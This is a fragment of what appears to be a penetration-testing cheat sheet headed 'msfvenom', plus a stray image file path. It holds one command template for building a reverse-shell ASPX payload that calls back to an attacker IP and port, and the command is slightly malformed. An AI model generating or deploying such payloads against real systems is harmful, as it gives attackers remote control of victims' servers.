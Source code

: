 # msfvenom

```bash
msfvenom -p <payload> LHOST=<attacking-ip> LPORT=<port>-f <extension> > reverse_shell.aspx
```
